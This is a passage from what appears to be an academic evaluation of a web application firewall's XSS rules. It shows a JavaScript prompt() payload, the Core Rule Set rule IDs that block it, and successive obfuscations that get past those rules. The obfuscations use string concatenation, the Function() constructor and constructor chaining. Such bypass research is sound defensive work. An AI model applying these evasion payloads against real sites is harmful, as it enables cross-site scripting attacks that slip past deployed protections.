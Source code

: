 \begin{lstlisting}[style=ruleStyle, language=XML, caption={prompt() blocked}, label={lst:promptblocked}]
<payload>`var s = "secret";prompt(s, s)`</payload>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}
Using string concatenation to replace the character sequence \verb|'prompt'| with \verb|'promp + t'| successfully made the payload evade rule \verb|941390| and bypass the WAF. The bypassing payload:

\begin{lstlisting}[style=basicStyle, language=Python]
`var s = 'secret'; promp` + `t(s, s)`
\end{lstlisting}
If this payload is correctly injected into the evaluation test page mentioned under Section~\ref{sec:evaluation}, it results in the following \acrshort{html} code (shortened):

\begin{lstlisting}[style=basicStyle, language=Python]
<div id="div1">
	<img src="0" onerror="`var s = 'secret'; promp` + `t(s, s)`">
</div>
\end{lstlisting}
While this executes without exceptions, it does not achieve the wished-for effect. The effect achieved is the concatenation of the two strings \verb|`var s = 'secret'; promp`| and \verb|`t(s, s)`|. As mentioned under Section~\ref{sec:stringconc}, the payload string needs to be evaluated on the target in order to have a functioning payload after obscuring the statements inside with string concatenation. To achieve this, the \verb|Function()| constructor was used:

\begin{lstlisting}[style=basicStyle, language=Python]
new Function(`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}
When evaluating the firewall against this payload, the payload was blocked according to rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption={Function() constructor blocked}, label={lst:funconblocked}]
<payload>new Function(`var s = 'secret'; promp` + `t(s, s)`)()</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"new Function("</MatchedData>
\end{lstlisting}
To evade rule with id \verb|934100|, calling the \verb|Function()| constructor was substituted by \verb|[]['constructor']['constructor']()| according to the technique mentioned under Section~\ref{sec:functionconstructor}:

